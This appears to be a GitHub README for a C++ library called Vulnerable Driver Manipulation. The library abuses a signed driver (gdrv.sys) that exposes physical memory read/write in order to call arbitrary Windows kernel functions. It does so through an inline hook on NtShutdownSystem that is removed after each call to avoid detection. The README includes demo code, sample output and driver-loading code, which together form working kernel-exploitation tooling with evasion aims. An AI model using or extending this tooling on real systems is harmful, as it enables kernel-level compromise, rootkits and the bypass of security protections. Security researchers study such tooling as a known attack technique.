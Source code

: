 <div align="center">
    <div>
        <img src="https://imgur.com/7ipSZRN.png"/>
    </div>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys, and is inline hooking NtShutdownSystem. The inline hook is not patchguard friendly,
but is removed after every syscall into NtShutdownSystem to prevent possible detection.

# Example

In this example VDM syscalls into an inline hook placed on NtShutdownSystem to call memcpy exported from ntoskrnl.exe.

#### Demo Code
```cpp
vdm::vdm_ctx vdm;
const auto ntoskrnl_base =
reinterpret_cast<void*>(
	util::get_module_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
    util::get_kernel_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);
std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0x70, drv_key -> frAQBc8Wsa1xVPfv
[+] NtShutdownSystem physical address -> 0x00000000109BB3A0
[+] ntoskrnl base address -> 0xFFFFF80075200000
[+] ntoskrnl memcpy address -> 0xFFFFF800755F0980
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. 

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```
